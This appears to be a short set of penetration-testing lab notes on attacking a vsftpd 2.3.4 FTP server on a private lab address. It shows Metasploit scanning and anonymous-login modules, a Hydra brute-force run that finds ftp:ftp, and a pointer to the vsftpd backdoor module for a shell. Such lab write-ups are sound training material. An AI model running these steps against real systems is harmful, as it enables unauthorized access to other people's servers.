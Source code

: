 ```
Connected to 192.168.119.129.
220 (vsFTPd 2.3.4)
```

Use Metasplit:  
```
msf6 auxiliary(scanner/ftp/ftp_version) > set RHOST 192.168.119.129
RHOST => 192.168.119.129
msf6 auxiliary(scanner/ftp/ftp_version) > exploit

[+] 192.168.119.129:21    - FTP Banner: '220 (vsFTPd 2.3.4)\x0d\x0a'
[*] 192.168.119.129:21    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ftp/ftp_version) > 
```

```
msf6 auxiliary(scanner/ftp/ftp_login) > set blank_passwords true
blank_passwords => true
msf6 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.119.129
RHOSTS => 192.168.119.129
msf6 auxiliary(scanner/ftp/ftp_login) > set USERNAME anonyus
USERNAME => anonyus
msf6 auxiliary(scanner/ftp/ftp_login) > set username anonymous
username => anonymous
msf6 auxiliary(scanner/ftp/ftp_login) > exploit

[*] 192.168.119.129:21    - 192.168.119.129:21 - Starting FTP login sweep
[!] 192.168.119.129:21    - No active DB -- Credential data will not be saved!
[+] 192.168.119.129:21    - 192.168.119.129:21 - Login Successful: anonymous:
[*] 192.168.119.129:21    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

### Use Hydra
hydra - a very fast network logon cracker which supports many different services  
```
hydra -s 21 -C ftp-default-userpass.txt -u -f 192.168.119.129 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-10 15:03:19
[DATA] max 11 tasks per 1 server, overall 11 tasks, 11 login tries, ~1 try per task
[DATA] attacking ftp://192.168.119.129:21/
[21][ftp] host: 192.168.119.129   login: ftp   password: ftp
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-10 15:03:20
```
-u        loop around users, not passwords (effective! implied with -x)  
-C FILE   colon separated "login:pass" format, instead of -L/-P options  
-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)  
-s port 
### Metasploit
searchsploit vfstpd 2.3.4 there's a metasploit module
```
use unix/ftp/vsftpd_234_backdoor
```
can get the shell
